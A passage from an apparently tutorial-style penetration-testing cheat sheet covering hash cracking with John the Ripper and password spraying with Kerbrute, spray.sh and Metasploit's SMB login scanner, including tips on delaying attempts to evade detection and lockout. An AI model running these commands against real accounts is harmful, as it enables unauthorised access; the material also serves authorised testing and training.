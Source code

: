 John is another powerful password cracker with built-in wordlists and rules.

#### Basic Syntax
```bash
john --format=<format> --wordlist=<wordlist> <hash_file>
```

#### Common Use Cases

**Basic Dictionary Attack**
```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

**Incremental Mode (Brute Force)**
```bash
john --incremental=alnum hashes.txt
```

## Password Spraying

Password spraying is an attack that tries a single password against multiple accounts to avoid account lockout policies.

### Key Considerations
- **Account Lockout Policies**: Check if account lockout is enabled before spraying
- **Timing**: Add delays between attempts to avoid detection
- **Common Passwords**: Use common passwords that might be in use (e.g., SeasonYear!)

### Tools for Password Spraying

#### 1. Kerbrute
```bash
# Basic password spray
kerbrute passwordspray -d domain.local -u users.txt -p 'Spring2023!' <domain_controller_ip>

# With delay between attempts
kerbrute passwordspray -d domain.local -u users.txt -p 'Spring2023!' --delay 10s <domain_controller_ip>
```

#### 2. Spray
```bash
# SMB password spray
spray.sh -t 10 -w 5 -d 30 -f users.txt -p 'Company123!' smb 192.168.1.1

# RDP password spray
spray.sh -t 10 -w 5 -d 30 -f users.txt -p 'Company123!' rdp 192.168.1.1
```

#### 3. MSFConsole (Metasploit)
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.1.1
set USER_FILE users.txt
set PASS_FILE passwords.txt
set STOP_ON_SUCCESS true
set BLANK_PASSWORDS false
set DB_ALL_CREDS true
run
```
